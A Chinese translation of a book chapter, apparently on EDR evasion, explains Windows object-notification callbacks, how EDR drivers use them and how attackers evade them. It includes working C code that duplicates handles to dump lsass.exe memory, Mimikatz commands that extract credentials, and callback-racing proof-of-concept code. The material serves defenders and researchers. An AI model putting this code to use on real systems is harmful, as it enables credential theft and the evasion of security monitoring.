

# 4 对象通知


进程和线程事件只是使用回调例程监控系统活动的冰山一角。在 Windows 上，开发人员还可以捕获请求对象句柄的操作，这些操作提供了与攻击者活动相关的有价值遥测信息。

*对象* 是一种抽象资源的方式，如文件、进程、令牌和注册表键。一个名为 *对象管理器* 的集中式代理处理诸如监督对象的创建与销毁、跟踪资源分配和管理对象生命周期等任务。此外，当代码请求对进程、线程和桌面对象的句柄时，对象管理器会通知已注册的回调。EDR 认为这些通知很有用，因为许多攻击技术，从凭据转储到远程进程注入，都涉及打开这些句柄。

在本章中，我们探讨了对象管理器的一个功能：它能够在系统上发生某些类型的与对象相关的操作时通知驱动程序。当然，我们还将讨论攻击者如何避开这些检测活动。

## 对象通知的工作原理

对于所有其他通知类型，EDR 可以使用一个单独的函数注册对象回调例程，在这种情况下是 nt!ObRegisterCallbacks()。让我们来看一下这个函数，看看它是如何工作的，然后练习实现一个对象回调例程。

### 注册新的回调

乍一看，注册功能似乎很简单，只需要两个指针作为参数：CallbackRegistration 参数，指定回调例程本身以及其他注册信息，和 RegistrationHandle，当驱动程序希望取消注册回调例程时，接收传递的值。

尽管这个函数的定义看起来简单，但通过 CallbackRegistration 参数传递的结构体却复杂得多。列表 4-1 显示了它的定义。

```
typedef struct _OB_CALLBACK_REGISTRATION {
  USHORT                    Version;
  USHORT                    OperationRegistrationCount;
  UNICODE_STRING            Altitude;
  PVOID                     RegistrationContext;
  OB_OPERATION_REGISTRATION *OperationRegistration;
} OB_CALLBACK_REGISTRATION, *POB_CALLBACK_REGISTRATION;
```

列表 4-1：OB_CALLBACK_REGISTRATION 结构定义

你会发现其中一些值相当简单明了。对象回调注册的版本始终为 OB_FLT_REGISTRATION_VERSION (0x0100)。OperationRegistrationCount 成员是传递给 OperationRegistration 成员的回调注册结构的数量，RegistrationContext 是传递给回调例程的某个值，每当它们被调用时都会传递该值，并且通常会被设置为 null。

Altitude 成员是一个字符串，表示回调例程应调用的顺序。具有较高高度的前操作例程会更早运行，而具有较高高度的后操作例程则会稍晚执行。你可以将此值设置为任何值，只要该值没有被其他驱动程序的例程占用。幸运的是，微软允许使用小数，而不仅仅是整数，这降低了高度冲突的总体可能性。

此注册功能的核心是其 OperationRegistration 参数及其指向的注册结构数组。该结构的定义如 清单 4-2 所示。此数组中的每个结构都指定函数是注册前操作回调例程还是后操作回调例程。

```
typedef struct _OB_OPERATION_REGISTRATION {
  POBJECT_TYPE                *ObjectType;
  OB_OPERATION                Operations;
  POB_PRE_OPERATION_CALLBACK  PreOperation; POB_POST_OPERATION_CALLBACK PostOperation;
} OB_OPERATION_REGISTRATION, *POB_OPERATION_REGISTRATION;
```

清单 4-2：OB_OPERATION_REGISTRATION 结构定义

表 4-1 描述了每个成员及其目的。如果你对驱动程序监控的内容感到好奇，这些结构包含了你所关注的大部分信息。

表 4-1： 成员 OB_OPERATION_REGISTRATION 结构

| 成员 | 目的 |
| --- | --- |

| ObjectType | 指向驱动程序开发人员希望监控的对象类型的指针。 截至本文写作时，支持三种值：

+   PsProcessType (进程)

+   PsThreadType (线程)

+   ExDesktopObjectType (桌面)

|

| Operations | 一个指示要监控的句柄操作类型的标志。可以是 OB_OPERATION_HANDLE_CREATE，用于监控新句柄请求，或者 OB_OPERATION_HANDLE_DUPLICATE，用于监控句柄重复请求。 |
| --- | --- |
| PreOperation | 一个指向前操作回调例程的指针。此例程将在句柄操作完成之前调用。 |
| PostOperation | 一个指向后操作回调例程的指针。此例程将在句柄操作完成后调用。 |

我们将在“驱动程序触发后的操作检测”一节中进一步讨论这些成员，参见 第 66 页。

### 监控新进程句柄和重复进程句柄请求

EDR（端点检测与响应）通常实现前操作回调来监控新进程句柄和重复进程句柄请求。虽然监控线程和桌面句柄请求也有帮助，但攻击者更频繁地请求进程句柄，因此它们通常提供更相关的信息。清单 4-3 显示了 EDR 可能如何在驱动程序中实现这种回调。

```
PVOID g_pObCallbackRegHandle;
NTSTATUS DriverEntry(PDRIVER_OBJECT pDriverObj, PUNICODE_STRING pRegPath)
{
    NTSTATUS status = STATUS_SUCCESS;
    OB_CALLBACK_REGISTRATION CallbackReg;
    OB_OPERATION_REGISTRATION OperationReg;

    RtlZeroMemory(&CallbackReg, sizeof(OB_CALLBACK_REGISTRATION));
    RtlZeroMemory(&OperationReg, sizeof(OB_OPERATION_REGISTRATION));

    `--snip--`

    CallbackReg.Version = OB_FLT_REGISTRATION_VERSION;
 ❶ CallbackReg.OperationRegistrationCount = 1; RtlInitUnicodeString(&CallbackReg.Altitude, ❷ L"28133.08004");
    CallbackReg.RegistrationContext = NULL;

    OperationReg.ObjectType = ❸ PsProcessType;
    OperationReg.Operations = ❹ OB_OPERATION_HANDLE_CREATE | OB_OPERATION_HANDLE_DUPLICATE;
 ❺ OperationReg.PreOperation = ObjectNotificationCallback;

    CallbackReg.OperationRegistration = ❻ &OperationReg;

    status = ❼ ObRegisterCallbacks(&CallbackReg, &g_pObCallbackRegHandle);
    if (!NT_SUCCESS(status))
    {
       return status;
    }

    `--snip--`
}
OB_PREOP_CALLBACK_STATUS ObjectNotificationCallback(
  PVOID RegistrationContext,
  POB_PRE_OPERATION_INFORMATION Info)
{
      `--snip--`
}
```

清单 4-3：注册前操作回调通知例程

在这个示例驱动程序中，我们首先填充回调注册结构。最重要的两个成员是 OperationRegistrationCount，我们将其设置为 1，表示我们只注册一个回调例程 ❶，以及高度值，我们将其设置为一个任意值 ❷，以避免与其他驱动程序的例程冲突。

接下来，我们设置操作注册结构。我们将 ObjectType 设置为 PsProcessType ❸，并将 Operations 设置为指示我们关注监控新或重复进程句柄操作的值 ❹。最后，我们将 PreOperation 成员指向我们的内部回调函数 ❺。

最后，我们通过将指针传递到 OperationRegistration 成员 ❻，将我们的操作注册结构与回调注册结构连接起来。此时，我们准备调用注册函数 ❼。当该函数执行完成后，我们的回调例程将开始接收事件，同时我们会收到一个可以传递给注册函数来注销该例程的值。

## 检测 EDR 正在监控的对象

我们如何检测 EDR 正在监控哪些对象？与其他类型的通知一样，当注册函数被调用时，系统会将回调例程添加到例程数组中。然而，对于对象回调，数组的结构不像其他类型那么直接。

还记得我们传递到操作注册结构中的指针，用来指定我们感兴趣监控的对象类型吗？到目前为止，在本书中我们大多遇到的是指向结构体的指针，但这些指针实际上引用的是枚举中的值。让我们来看一下 nt!PsProcessType，了解一下发生了什么。像 nt!PsProcessType 这样的对象类型其实是 OBJECT_TYPE 结构体。列表 4-4 展示了在运行中的系统中，这些结构体的样子，使用了 WinDbg 调试器。

```
2: kd> **dt nt!_OBJECT_TYPE poi(nt!PsProcessType)**
  +0x000 TypeList         : _LIST_ENTRY [0xffffad8b`9ec8e220 - 0xffffad8b`9ec8e220]
  +0x010 Name             : _UNICODE_STRING "Process"
  +0x020 DefaultObject    : (null)
  +0x028 Index            : 0x7 ' '
  +0x02c TotalNumberOfObjects : 0x7c
  +0x030 TotalNumberOfHandles : 0x4ce
  +0x034 HighWaterNumberOfObjects  : 0x7d
  +0x038 HighWaterNumberOfHandles  : 0x4f1
  +0x040 TypeInfo         : _OBJECT_TYPE_INITIALIZER
  +0x0b8 TypeLock         : _EX_PUSH_LOCK
  +0x0c0 Key              : 0x636f7250
  +0x0c8 CallbackList     : _LIST_ENTRY [0xffff9708`64093680 - 0xffff9708`64093680]
```

列表 4-4: nt!_OBJECT_TYPE 被 nt!PsProcessType 指向

偏移量 0x0c8 处的 CallbackList 条目对我们特别有意义，因为它指向一个 LIST_ENTRY 结构，这是与进程对象类型相关的回调例程双向链表的入口点或头部。链表中的每个条目都指向一个未记录的 CALLBACK_ENTRY_ITEM 结构。这个结构的定义包含在 列表 4-5 中。

```
Typedef struct _CALLBACK_ENTRY_ITEM {
    LIST_ENTRY EntryItemList;
    OB_OPERATION Operations;
    DWORD Active;
    PCALLBACK_ENTRY CallbackEntry;
    POBJECT_TYPE ObjectType;
    POB_PRE_OPERATION_CALLBACK PreOperation;
    POB_POST_OPERATION_CALLBACK PostOperation;
    __int64 unk;
} CALLBACK_ENTRY_ITEM, * PCALLBACK_ENTRY_ITEM;
```

列表 4-5: CALLBACK_ENTRY_ITEM 结构定义

该结构体的 PreOperation 成员位于偏移量 0x028。如果我们能遍历回调函数的链表，并在每个结构体中获取该成员指向地址的符号，我们就能列举出监控进程句柄操作的驱动程序。WinDbg 再次派上用场，它支持脚本化功能，正如 列表 4-6 中所示，能够完成我们所需要的操作。

```
2: kd> **!list -x ".if (poi(@$extret+0x28) != 0) {lmDva (poi(@$extret+0x28));}"**
**(poi(nt!PsProcessType)+0xc8)**

Browse full module list
start             end               module name fffff802`73b80000 fffff802`73bf2000 WdFilter (no symbols)
    Loaded symbol image file: WdFilter.sys
  ❶ Image path: \SystemRoot\system32\drivers\wd\WdFilter.sys
    Image name: WdFilter.sys
    Browse all global symbols functions data
    Image was built with /Brepro flag.
    Timestamp:        629E0677 (This is a reproducible build file hash, not a timestamp)
    CheckSum:         0006EF0F
    ImageSize:        00072000
    Translations:     0000.04b0 0000.04e4 0409.04b0 0409.04e4
    Information from resource tables:
```

列表 4-6: 枚举进程句柄操作的预操作回调

这个调试器命令基本上是说：“遍历从 nt!_OBJECT_TYPE 结构中 CallbackList 成员指向的地址开始的链表，如果 PreOperation 成员指向的地址不为 null，则打印出模块信息。”

在我的测试系统上，Defender 的 *WdFilter.sys* ❶ 是唯一一个注册了回调的驱动程序。在部署了 EDR 的真实系统中，你几乎肯定会看到 EDR 的驱动程序与 Defender 一起注册。你可以使用相同的过程列举监控线程或桌面句柄操作的回调，但这些通常不那么常见。此外，如果微软添加了注册其他类型对象句柄操作回调的能力，比如针对令牌的回调，那么这个过程也可以列举它们。

## 触发后检测驱动程序的行为

虽然了解 EDR 关注的对象类型对于监控很有用，但最有价值的信息是驱动程序在被触发时实际执行的操作。EDR 可以做很多事情，从默默观察代码的活动到积极干扰请求。为了理解驱动程序可能做什么，我们首先需要查看它操作的数据。

当某些句柄操作调用已注册的回调时，回调将接收一个指向 OB_PRE_OPERATION_INFORMATION 结构的指针（如果是预操作回调），或者一个指向 OB_POST_OPERATION_INFORMATION 结构的指针（如果是后操作例程）。这些结构非常相似，但后操作版本仅包含句柄操作的返回码，且其数据不能更改。预操作回调更为普遍，因为它们为驱动程序提供了拦截和修改句柄操作的能力。因此，我们将重点关注预操作结构，如列表 4-7 所示。

```
typedef struct _OB_PRE_OPERATION_INFORMATION {
  OB_OPERATION                 Operation;
  union {
    ULONG Flags;
    struct {
      ULONG KernelHandle : 1;
      ULONG Reserved : 31; };
  };
  PVOID                        Object;
  POBJECT_TYPE                 ObjectType;
  PVOID                        CallContext;
  POB_PRE_OPERATION_PARAMETERS Parameters;
} OB_PRE_OPERATION_INFORMATION, *POB_PRE_OPERATION_INFORMATION;
```

列表 4-7：OB_PRE_OPERATION_INFORMATION 结构定义

就像注册回调的过程一样，解析通知数据比看起来要复杂一些。让我们一起逐步分析其中的重要部分。首先，Operation句柄用来识别当前执行的操作是创建一个新的句柄，还是复制一个已有的句柄。EDR 的开发者可以根据正在处理的操作类型使用这个句柄执行不同的操作。此外，如果KernelHandle值不为零，则说明该句柄是内核句柄，回调函数通常不会处理它。这允许 EDR 进一步减少需要监控的事件范围，从而提供有效的覆盖。

Object指针引用了句柄操作的目标。驱动程序可以使用它进一步调查该目标，例如获取有关其进程的信息。ObjectType指针指示操作是否针对进程或线程，而Parameters指针引用一个结构，该结构指示正在处理的操作类型（无论是句柄创建还是复制）。

驱动程序几乎会使用结构中的所有内容，直到Parameters成员来筛选操作。一旦知道它正在处理的对象类型以及将要处理的操作类型，它通常不会再执行额外的检查，除非是确认该句柄是否为内核句柄。一旦开始处理由Parameters成员指向的结构，真正的魔力就开始了。如果操作是创建一个新的句柄，我们将接收到指向清单 4-8 中定义的结构的指针。

```
typedef struct _OB_PRE_CREATE_HANDLE_INFORMATION {
  ACCESS_MASK DesiredAccess;
  ACCESS_MASK OriginalDesiredAccess;
} OB_PRE_CREATE_HANDLE_INFORMATION, *POB_PRE_CREATE_HANDLE_INFORMATION;
```

清单 4-8：OB_PRE_CREATE_HANDLE_INFORMATION结构定义

这两个ACCESS_MASK值都指定了要授予句柄的访问权限。这些值可能会设置为像PROCESS_VM_OPERATION或THREAD_SET_THREAD_TOKEN这样的值，这些值可能会在打开进程或线程时，作为<	samp class="SANS_TheSansMonoCd_W5Regular_11">dwDesiredAccess参数传递给函数。

你可能会想，为什么这个结构包含两份相同的值。其实原因是预操作通知赋予了驱动程序修改请求的能力。假设驱动程序想要阻止进程读取*lsass.exe*进程的内存。为了读取该进程的内存，攻击者首先需要打开一个具有适当权限的句柄，因此他们可能会请求PROCESS_ALL_ACCESS。驱动程序将收到这个新的进程句柄通知，并在结构的OriginalDesiredAccess成员中看到请求的访问掩码。为了阻止访问，驱动程序可以通过使用按位补码运算符（*~*）翻转与该访问权限相关的位，从DesiredAccess成员中移除PROCESS_VM_READ。翻转这个位会阻止该句柄获得该特定权限，但允许它保留所有其他请求的权限。

如果操作是用于复制现有句柄，我们将收到指向清单 4-9 中定义的结构的指针，该结构包含两个附加指针。

```
typedef struct _OB_PRE_DUPLICATE_HANDLE_INFORMATION {
  ACCESS_MASK DesiredAccess;
  ACCESS_MASK OriginalDesiredAccess;
  PVOID       SourceProcess;
  PVOID       TargetProcess;
} OB_PRE_DUPLICATE_HANDLE_INFORMATION, *POB_PRE_DUPLICATE_HANDLE_INFORMATION;
```

清单 4-9：OB_PRE_DUPLICATE_HANDLE_INFORMATION 结构定义

SourceProcess成员是指向发起句柄请求的进程对象的指针，而TargetProcess是指向接收该句柄的进程的指针。这与传递给句柄复制内核函数的hSourceProcessHandle和hTargetProcessHandle参数相匹配。

## 在认证攻击中规避对象回调

毫无疑问，攻击者最常针对的进程之一是*lsass.exe*，它负责处理用户模式下的认证。其地址空间可能包含明文认证凭据，攻击者可以使用如 Mimikatz、ProcDump，甚至任务管理器等工具提取这些凭据。

由于攻击者已经广泛地攻击*lsass.exe*，安全厂商已经投入了大量时间和精力来检测其滥用。对象回调通知是他们用于此目的的最强大数据源之一。为了判断活动是否恶意，许多 EDR 依赖于每次新的进程句柄请求时传递给回调例程的三条信息：发起请求的进程、请求句柄的目标进程以及*访问掩码*，即调用进程请求的权限。

例如，当操作员请求一个新的指向 *lsass.exe* 的进程句柄时，EDR 的驱动程序将确定调用进程的身份，并检查目标是否为 *lsass.exe*。如果是，它可能会评估请求的访问权限，查看请求者是否请求了 PROCESS_VM_READ，因为它需要读取进程内存。接下来，如果请求者不属于应有权访问 *lsass.exe* 的进程列表，驱动程序可能选择返回无效句柄或一个修改过的访问掩码，并通知代理可能的恶意行为。

注意

*防御者有时可以根据请求的访问掩码识别特定的攻击者工具。许多攻击工具请求过度的访问掩码，如 PROCESS_ALL_ACCESS，或非典型的掩码，如 Mimikatz 请求的 PROCESS_VM_READ | PROCESS_QUERY_LIMITED_INFORMATION，当打开进程句柄时。*

总结来说，EDR 在其检测策略中做出了三个假设：调用进程将打开一个新的句柄指向 *lsass.exe*，该进程将是非典型的，并且请求的访问掩码将允许请求者读取 *lsass.exe* 的内存。攻击者可能会利用这些假设绕过代理的检测逻辑。

### 执行句柄窃取

攻击者规避检测的一种方式是复制另一个进程拥有的指向 *lsass.exe* 的句柄。它们可以通过 ntdll!NtQuerySystemInformation() API 发现这些句柄，该 API 提供了一个极其有用的功能：作为普通用户查看系统句柄表的能力。该表包含系统上所有打开的句柄的列表，包括互斥体、文件，最重要的是进程等对象。列表 4-10 展示了恶意软件如何查询此 API。

```
PSYSTEM_HANDLE_INFORMATION GetSystemHandles()
{
    NTSTATUS status = STATUS_SUCCESS;
    PSYSTEM_HANDLE_INFORMATION pHandleInfo = NULL;
    ULONG ulSize = sizeof(SYSTEM_HANDLE_INFORMATION);

    pHandleInfo = (PSYSTEM_HANDLE_INFORMATION)malloc(ulSize);
    if (!pHandleInfo)
    {
        return NULL;
    }

    status = NtQuerySystemInformation(
      ❶ SystemHandleInformation,
        pHandleInfo,
        ulSize, &ulSize);

    while (status == STATUS_INFO_LENGTH_MISMATCH)
    {
        free(pHandleInfo);
        pHandleInfo = (PSYSTEM_HANDLE_INFORMATION)malloc(ulSize);
        status = NtQuerySystemInformation(
            SystemHandleInformation, 1
          ❷ pHandleInfo,
            ulSize, &ulSize);
    } if (status != STATUS_SUCCESS)
    {
        return NULL;
    }
}
```

列表 4-10：检索句柄表

通过将 SystemHandleInformation 信息类传递给该函数 ❶，用户可以检索一个包含系统上所有活动句柄的数组。该函数完成后，将把数组存储在 SYSTEM_HANDLE_INFORMATION 结构的成员变量中 ❷。

接下来，恶意软件可以遍历句柄数组，如 列表 4-11 所示，并筛选出它无法使用的句柄。

```
for (DWORD i = 0; i < pHandleInfo->NumberOfHandles; i++)
{
    SYSTEM_HANDLE_TABLE_ENTRY_INFO handleInfo = pHandleInfo->Handles[i];

  ❶ if (handleInfo.UniqueProcessId != g_dwLsassPid && handleInfo.UniqueProcessId != 4)
  {
      HANDLE hTargetProcess = OpenProcess(
          PROCESS_DUP_HANDLE,
          FALSE,
          handleInfo.UniqueProcessId);

      if (hTargetProcess == NULL)
      {
          continue;
      }

      HANDLE hDuplicateHandle = NULL;
        if (!DuplicateHandle(
          hTargetProcess,
          (HANDLE)handleInfo.HandleValue,
          GetCurrentProcess(),
          &hDuplicateHandle,
          0, 0, DUPLICATE_SAME_ACCESS))
      {
          continue;
      }

      status = NtQueryObject(
          hDuplicateHandle,
          ObjectTypeInformation,
          NULL, 0, &ulReturnLength);
      if (status == STATUS_INFO_LENGTH_MISMATCH)
      {
          PPUBLIC_OBJECT_TYPE_INFORMATION pObjectTypeInfo =
              (PPUBLIC_OBJECT_TYPE_INFORMATION)malloc(ulReturnLength);
          if (!pObjectTypeInfo)
          {
              break;
          } status = NtQueryObject(
              hDuplicateHandle,
            ❷ ObjectTypeInformation,
              pObjectTypeInfo,
              ulReturnLength,
              &ulReturnLength);
          if (status != STATUS_SUCCESS)
          {
              continue;
          }

        ❸ if (!_wcsicmp(pObjectTypeInfo->TypeName.Buffer, L"Process"))
          {
              `--snip--`
          }
          free(pObjectTypeInfo);
      }
    }
}
```

列表 4-11：仅筛选进程句柄

我们首先确保*lsass.exe*或系统进程不拥有该句柄 ❶，因为这可能触发某些警报逻辑。然后，我们调用 ntdll!NtQueryObject()，传入 ObjectTypeInformation ❷ 以获取句柄所属对象的类型。接下来，我们确定该句柄是否属于进程对象 ❸，以便过滤掉其他类型，如文件和互斥体。

在完成基本过滤后，我们需要进一步调查这些句柄，确保它们具有我们所需的访问权限以转储进程内存。列表 4-12 在前一个代码清单的基础上进行了扩展。

```
if (!_wcsicmp(pObjectTypeInfo->TypeName.Buffer, L"Process"))
{
    LPWSTR szImageName = (LPWSTR)malloc(MAX_PATH * sizeof(WCHAR));
    DWORD dwSize = MAX_PATH * sizeof(WCHAR);

  ❶ if (QueryFullProcessImageNameW(hDuplicateHandle, 0, szImageName, &dwSize))
   {
        if (IsLsassHandle(szImageName) &&
        (handleEntryInfo.GrantedAccess & PROCESS_VM_READ) == PROCESS_VM_READ &&
        (handleEntryInfo.GrantedAccess & PROCESS_QUERY_INFORMATION) ==
            PROCESS_QUERY_INFORMATION)
        {
            HANDLE hOutFile = CreateFileW(
                L"C:\\lsa.dmp",
                GENERIC_WRITE,
                0,
                NULL,
                CREATE_ALWAYS,
                0, NULL); ❷ if (MiniDumpWriteDump(
                  hDuplicateHandle,
                  dwLsassPid,
                  hOutFile,
                  MiniDumpWithFullMemory,
                  NULL, NULL, NULL))
          {
              break;
          }

          CloseHandle(hOutFile);
        }
   }
}
```

列表 4-12：评估复制的句柄并转储内存

我们首先获取进程 ❶ 的映像名称，并将其传递给一个内部函数，IsLsassHandle()，该函数确保进程句柄是针对*lsass.exe*的。接下来，我们检查句柄的访问权限，寻找 PROCESS_VM _READ 和 PROCESS_QUERY_INFORMATION，因为我们将用来读取*lsass.exe*进程内存的 API 需要这些权限。如果我们找到具有所需访问权限的*lsass.exe*句柄，我们将复制该句柄并传递给 API，提取其信息 ❷。

使用这个新句柄，我们可以利用像 Mimikatz 这样的工具创建并处理*lsass.exe*的内存转储。列表 4-13 展示了这个工作流程。

```
C:\> **HandleDuplication.exe**
LSASS PID: 884
[+] Found a handle with the required rights!
 Owner PID: 17600
 Handle Value: 0xff8
 Granted Access: 0x1fffff
[>] Dumping LSASS memory to the DMP file…
[+] Dumped LSASS memory C:\lsa.dmp

C:\> **mimikatz.exe**

mimikatz # **sekurlsa::minidump C:\lsa.dmp**
Switch to MINIDUMP : 'C:\lsa.dmp'

mimikatz # **sekurlsa::logonpasswords**
Opening : 'C:\lsa.dmp' file for minidump…

Authentication Id : 0 ; 6189696 (00000000:005e7280)
Session           : RemoteInteractive from 2
User Name         : highpriv
Domain            : MILKYWAY
Logon Server      : SUN
`--snip--`
```

列表 4-13：转储 lsass.exe 的内存并使用 Mimikatz 处理小型转储文件

如你所见，我们的工具确定了 PID 17600，它对应于我测试主机上的进程资源管理器，并且该 PID 具有*lsass.exe*的句柄，访问掩码为 PROCESS_ALL_ACCESS (0x1FFFFF)。我们使用这个句柄将内存转储到文件中，*C:\lsa.dmp*。接下来，我们运行 Mimikatz 并使用它来处理该文件，然后使用 sekurlsa::logonpasswords 命令提取凭证信息。请注意，我们可以在目标外执行这些 Mimikatz 步骤，以减少被检测的风险，因为我们处理的是文件而不是实时内存。

尽管这一技术可以避开某些传感器，但 EDR 仍然可以通过多种方式检测我们的行为。请记住，对象回调可能会收到关于复制请求的通知。列表 4-14 展示了 EDR 驱动程序中可能出现的这种检测逻辑。

```
OB_PREOP_CALLBACK_STATUS ObjectNotificationCallback(
    PVOID RegistrationContext,
    POB_PRE_OPERATION_INFORMATION Info)
{
    NTSTATUS status = STATUS_SUCCESS;
 ❶ if (Info->ObjectType == *PsProcessType)
    {
        if (Info->Operation == OB_OPERATION_HANDLE_DUPLICATE)
        {
            PUNICODE_STRING psTargetProcessName = HelperGetProcessName(
              (PEPROCESS)Info->Object);
            if (!psTargetProcessName))
            {
                return OB_PREOP_SUCCESS;
            }

            UNICODE_STRING sLsaProcessName = RTL_CONSTANT_STRING(L"lsass.exe");
          ❷ if (FsRtlAreNamesEqual(psTargetProcessName, &sLsaProcessName, TRUE, NULL))
            {
              `--snip--`
            }
        }
    }
    `--snip--`
}
```

列表 4-14：基于目标进程名称过滤句柄复制事件

为了检测重复请求，EDR 可以确定是否传递给回调例程的 OB_PRE_OPERATION_INFORMATION 结构的 ObjectType 成员是 PsProcessType，如果是，进一步检查其 Operation 成员是否为 OB_OPERATION_HANDLE_DUPLICATE ❶。通过附加过滤，我们可以判断是否有可能遇到前面提到的技术。然后，我们可能会将目标进程的名称与敏感进程的名称进行比较，或者与敏感进程的列表进行比对 ❷。

实现此检查的驱动程序将检测到使用 kernel32!DuplicateHandle() 进行的进程句柄重复操作。图 4-1 展示了一个模拟的 EDR 报告该事件。



图 4-1：检测进程句柄重复

不幸的是，在撰写本文时，许多传感器仅对新句柄请求进行检查，而不检查重复请求。然而，这种情况可能会在未来发生变化，因此始终评估 EDR 驱动程序是否执行此检查。

### 与回调例程竞速

在他们 2020 年的论文《快速与狂怒：从用户模式绕过 Windows 内核通知例程》中，Pierre Ciholas、Jose Miguel Such、Angelos K. Marnerides、Benjamin Green、Jiajie Zhang 和 Utz Roedig 展示了一种新颖的绕过对象回调检测的方法。他们的方法是在执行传递到驱动程序的回调例程之前，先请求一个进程句柄。作者描述了两种不同的竞速回调例程的方法，以下章节对此进行了详细讲解。

#### 在父进程上创建作业对象

第一种技术适用于攻击者希望访问一个已知父进程的进程的情况。例如，当用户在 Windows 图形界面中双击一个应用程序时，其父进程应该是 *explorer.exe*。在这些情况下，攻击者明确知道目标进程的父进程，从而可以利用一些 Windows 技巧——稍后我们将讨论这些技巧——在驱动程序来不及处理之前，打开目标子进程的句柄。列表 4-15 展示了该技术的实际应用。

```
int main(int argc, char* argv[])
{
    HANDLE hParent = INVALID_HANDLE_VALUE;
    HANDLE hIoCompletionPort = INVALID_HANDLE_VALUE;
    HANDLE hJob = INVALID_HANDLE_VALUE;
    JOBOBJECT_ASSOCIATE_COMPLETION_PORT jobPort;
    HANDLE hThread = INVALID_HANDLE_VALUE;

    `--snip--`

    hParent = OpenProcess(PROCESS_ALL_ACCESS, true, atoi(argv[1]));

 ❶ hJob = CreateJobObjectW(nullptr, L"DriverRacer");

    hIoCompletionPort = ❷ CreateIoCompletionPort(
        INVALID_HANDLE_VALUE,
        nullptr,
        0, 0
    ); jobPort = JOBOBJECT_ASSOCIATE_COMPLETION_PORT{
        INVALID_HANDLE_VALUE,
        hIoCompletionPort
    };

    if (!SetInformationJobObject(
        hJob,
        JobObjectAssociateCompletionPortInformation,
        &jobPort,
        sizeof(JOBOBJECT_ASSOCIATE_COMPLETION_PORT)
    ))
    {
        return GetLastError();
    }

    if (!AssignProcessToJobObject(hJob, hParent))
    {
        return GetLastError();
    }

    hThread = CreateThread(
        nullptr, 0,
     ❸ (LPTHREAD_START_ROUTINE)GetChildHandles,
        &hIoCompletionPort,
        0, nullptr
    );

    WaitForSingleObject(hThread, INFINITE);

    `--snip--`
}
```

列表 4-15：设置作业对象和待查询的 I/O 完成端口

为了获取受保护进程的控制，操作员首先在已知的父进程上创建一个作业对象❶。结果，创建该作业对象的进程将会收到通过 I/O 完成端口❷创建的任何新子进程的通知。恶意软件进程随后必须尽快查询该 I/O 完成端口。在我们的示例中，内部函数GetChildHandles()❸，在列表 4-16 中进行了扩展，正是执行了这一操作。

```
void GetChildHandles(HANDLE* hIoCompletionPort)
{
    DWORD dwBytes = 0;
    ULONG_PTR lpKey = 0;
    LPOVERLAPPED lpOverlapped = nullptr;
    HANDLE hChild = INVALID_HANDLE_VALUE;
    WCHAR pszProcess[MAX_PATH];

    do
    {
        if (dwBytes == 6)
        {
            hChild = OpenProcess( PROCESS_ALL_ACCESS,
                true,
             ❶ (DWORD)lpOverlapped
            );

         ❷ GetModuleFileNameExW(
                hChild,
                nullptr,
                pszProcess,
                MAX_PATH
            );

            wprintf(L"New child handle:\n"
                "PID: %u\n"
                "Handle: %p\n"
                "Name: %ls\n\n",
                DWORD(lpOverlapped),
                hChild,
                pszProcess
            );
        }

 ❸ } while (GetQueuedCompletionStatus(
        *hIoCompletionPort,
        &dwBytes,
        &lpKey,
        &lpOverlapped,
        INFINITE));
}
```

列表 4-16：打开新进程句柄

在此函数中，我们首先在一个do…while循环❸中检查 I/O 完成端口。如果我们看到作为已完成操作一部分的字节已经传输，我们就会打开返回的 PID ❶的新句柄，请求完全权限（换句话说，PROCESS_ALL_ACCESS）。如果我们收到了句柄，我们会检查其映像名称❷。真正的恶意软件会对这个句柄执行某些操作，比如读取内存或终止进程，但在这里我们只是打印一些关于它的信息。

该技术之所以有效，是因为作业对象的通知发生在内核中的对象回调通知之前。在他们的论文中，研究人员测量了进程创建与对象回调通知之间的时间，约为 8.75–14.5 毫秒。这意味着，如果在通知传递给驱动程序之前请求句柄，攻击者可以获得一个完全特权的句柄，而不是一个被驱动程序更改了访问掩码的句柄。

#### 猜测目标进程的 PID

论文中描述的第二种技术尝试预测目标进程的 PID。通过从潜在 PID 列表中移除所有已知的 PID 和线程 ID（TID），作者们展示了更高效地猜测目标进程 PID 的可能性。为了演示这一点，他们创建了一个名为*hThemAll.cpp*的概念验证程序。该工具的核心是内部函数OpenProcessThemAll()，如列表 4-17 所示，程序通过四个并发线程执行该函数来打开进程句柄。

```
void OpenProcessThemAll(
    const DWORD dwBasePid,
    const DWORD dwNbrPids,
    std::list<HANDLE>* lhProcesses,
    const std::vector<DWORD>* vdwExistingPids)
{
    std::list<DWORD> pids;
    for (auto i(0); i < dwNbrPids; i += 4)
        if (!std::binary_search(
            vdwExistingPids->begin(),
            vdwExistingPids->end(),
            dwBasePid + i))
        {
            pids.push_back(dwBasePid + i);
        }

    while (!bJoinThreads) {
        for (auto it = pids.begin(); it != pids.end(); ++it)
        {
          ❶ if (const auto hProcess = OpenProcess(
                DESIRED_ACCESS,
                DESIRED_INHERITANCE,
                *it))
            {
                  EnterCriticalSection(&criticalSection);
                ❷ lhProcesses->push_back(hProcess);
                  LeaveCriticalSection(&criticalSection);
                  pids.erase(it);
            }
        }
    }
}
```

列表 4-17：用于请求进程句柄并检查其 PID 的OpenProcessThemAll()函数

该函数通过一个过滤后的 PID 列表，不加区别地请求所有进程的句柄❶。如果返回的句柄有效，它将被添加到数组中❷。该函数完成后，我们可以检查是否有返回的句柄匹配目标进程。如果句柄不匹配目标，它将被关闭。

尽管概念验证是可行的，但它缺少一些边缘案例，例如在一个进程或线程终止后，另一个进程或线程重新使用该进程和线程标识符。完全可以覆盖这些情况，但在本文写作时并没有公开的示例。

这两种技术的操作使用案例也可能受到限制。例如，如果我们想使用第一种技术来打开代理进程的句柄，我们需要在该进程启动之前运行我们的代码。这在真实系统中非常具有挑战性，因为大多数 EDR 通过在启动顺序中较早运行的服务启动代理进程。我们需要管理员权限来创建我们自己的服务，而这仍然无法保证我们能够在代理服务启动之前让恶意软件运行。

此外，这两种技术都侧重于破解 EDR 的预防控制措施，并没有考虑其侦测控制措施。即使驱动程序无法修改请求句柄的权限，它仍然可能报告可疑的进程访问事件。微软表示，它不会修复这个问题，因为这样做可能会导致应用兼容性问题；相反，第三方开发者负责缓解。

## 结论

